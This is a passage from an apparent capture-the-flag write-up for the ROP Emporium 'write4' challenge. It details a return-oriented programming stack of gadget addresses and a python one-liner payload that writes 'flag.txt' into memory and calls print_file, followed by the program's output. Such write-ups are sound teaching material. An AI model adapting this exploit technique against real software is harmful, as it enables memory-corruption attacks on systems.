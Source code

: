 Our stack should now look like the following:
- "A" written 40 times.
- `0x0000000000400690`, which will make the program jump to the `pop r14; pop r15; ret` instructions.
- `0x0000000000601028`, which will set `r14` to the memory location where we are writing our string.
- `0x666c61672e747874`, which will set `r15` to "flag.txt" written in ASCII.
- `0x0000000000400628`, which will jump to the `mov qword ptr [r14], r15; ret;` instruction after we have set `r14` and `r15`.
- `0x0000000000400693`, which will jump to the `pop rdi; ret` instruction.
- `0x0000000000601028`, which will set `rdi` to the memory location where we wrote our string.
- `0x0000000000400510`, which will execute `print_file("flag.txt")`

This gives us the following:
```bash
$ python -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\x90\x06\x40\x00\x00\x00\x00\x00' + b'\x28\x10\x60\x00\x00\x00\x00\x00' + b'\x66\x6c\x61\x67\x2e\x74\x78\x74' + b'\x28\x06\x40\x00\x00\x00\x00\x00' + b'\x93\x06\x40\x00\x00\x00\x00\x00' + b'\x28\x10\x60\x00\x00\x00\x00\x00' + b'\x10\x05\x40\x00\x00\x00\x00\x00')" | ./write4 
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> Thank you!
ROPE{a_placeholder_32byte_flag!}
```

This will successfully execute our ROP chain and print out our flag!

{% include related_posts.html %}
